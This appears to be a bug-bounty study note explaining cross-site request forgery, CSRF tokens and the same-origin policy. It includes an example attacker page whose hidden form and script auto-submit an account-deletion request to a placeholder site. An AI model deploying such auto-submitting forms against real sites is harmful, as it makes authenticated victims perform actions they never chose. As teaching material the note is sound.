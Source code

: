 # Cross Site Request Forgery (CSRF/XSRF)

CSRF is an attack where the attacker causes the victim user to carry out an action unintentionally while that user is authenticated.
It is also known as one-click attack or session riding


> CSRF attacks exploit the trust a Web application has in an authenticated user
>
> XSS attacks exploit the trust a user has in a particular Web application


## CSRF Token

The csrf token should be transmitted to the client within a hidden field in an HTML form, submitted using HTTP POST requests

## Examples

A example post request for deleting an account.
```
POST /delete_my_account HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Cookie: SessionId=d34dc0d3

delete=1
```

On the malicious site
```
<form
	action="http://vulnerable.com/delete_my_account"
	method="POST"
	id="csrf_form">
	<input type="hidden" name="delete" value="1" />
</form>

<script>
	document.getElementById('csrf_form').submit();
</script>
```




### Cross Domain Access Controls

Same Origin Policy (Same Domain, Same Schema, Same TCP Port)

![url](https://github.com/fy0d-0r/bug_bounty_notes/blob/main/images/sop.png)







